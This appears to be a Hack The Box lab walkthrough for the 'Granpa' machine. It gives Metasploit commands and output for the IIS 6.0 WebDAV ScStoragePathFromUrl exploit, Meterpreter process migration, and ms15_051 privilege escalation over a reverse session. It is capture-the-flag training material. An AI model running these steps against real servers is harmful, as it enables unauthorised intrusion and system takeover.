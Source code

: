 ### Metasploit Training
```shell
msf > use exploit/windows/iis/iis_webdav_scstoragepathfromurl 
```
**Confirm target**
```shell
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > check
[+] 10.10.10.14:80 The target is vulnerable.
```
```shell
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit
--------
meterpreter > sysinfo
Computer        : GRANPA
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```
**Mirgrate "More powerful process"**
```shell
meterpreter > ps
--------
1800  604   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
--------

meterpreter > migrate 1800
[*] Migrating from 2776 to 1800...
[*] Migration completed successfully.
```
**Select exploit**
```shell
meterpreter > background
[*] Backgrounding session 1...
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use exploit/windows/local/ms15_051_client_copy_image 
msf exploit(windows/local/ms15_051_client_copy_image) > sessions -l
Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x86/windows  NT AUTHORITY\NETWORK SERVICE @ GRANPA  10.10.14.11:4444 -> 10.10.10.14:1030 (10.10.10.14)

msf exploit(windows/local/ms15_051_client_copy_image) > set LHOST 10.10.14.11
LHOST => 10.10.14.11

msf exploit(windows/local/ms15_051_client_copy_image) > run
```
#### WHY
+ Server: Microsoft-IIS/6.0
+ OSVDB-397: HTTP method ('Public' Header): 'PUT' method could allow clients to save files on the web server.
+ OPTIONS WebDAV enabled (COPY UNLOCK PROPFIND PROPPATCH LOCK MKCOL SEARCH listed as allowed)
https://www.exploit-db.com/exploits/41738
